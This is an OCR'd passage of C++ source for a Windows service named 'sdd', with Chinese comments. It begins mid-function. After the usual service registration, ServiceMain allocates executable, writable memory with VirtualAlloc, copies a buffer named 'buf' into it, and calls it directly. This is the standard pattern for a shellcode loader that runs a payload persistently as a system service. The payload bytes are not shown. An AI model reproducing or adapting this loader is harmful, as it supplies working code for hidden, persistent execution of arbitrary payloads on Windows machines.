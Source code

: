 ```


ServiceStatus.dwWin32ExitCode = 0;
ServiceStatus.dwCurrentState = SERVICE_STOPPED;
SetServiceStatus(hStatus, &ServiceStatus);
return;
default:
break;
}
/* Report current status  */
SetServiceStatus(hStatus, &ServiceStatus);
return;
}


void ServiceMain(int argc, char** argv)
{
WCHAR WserviceName[] = TEXT("sdd");
int error;
ServiceStatus.dwServiceType =
SERVICE_WIN32;
ServiceStatus.dwCurrentState =
SERVICE_START_PENDING;
/*在本例中只接受系统关机和停止服务两种控制命令*/
ServiceStatus.dwControlsAccepted =
SERVICE_ACCEPT_SHUTDOWN |
SERVICE_ACCEPT_STOP;
ServiceStatus.dwWin32ExitCode = 0;
ServiceStatus.dwServiceSpecificExitCode = 0;
ServiceStatus.dwCheckPoint = 0;
ServiceStatus.dwWaitHint = 0;
hStatus = ::RegisterServiceCtrlHandler(
WserviceName,
(LPHANDLER_FUNCTION)CtrlHandler);
if (hStatus == (SERVICE_STATUS_HANDLE)0)
{


WriteToLog("RegisterServiceCtrlHandler failed");
return;
}
WriteToLog("RegisterServiceCtrlHandler success");
/* Initialize Service   */
error = InitService();
if (error)
{
/* Initialization failed  */
ServiceStatus.dwCurrentState =
SERVICE_STOPPED;
ServiceStatus.dwWin32ExitCode = -1;
SetServiceStatus(hStatus, &ServiceStatus);
return;
}


LPVOID Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(Memory, buf, sizeof(buf));
((void(*)())Memory)();


/*向SCM 报告运行状态*/
ServiceStatus.dwCurrentState =
SERVICE_RUNNING;
```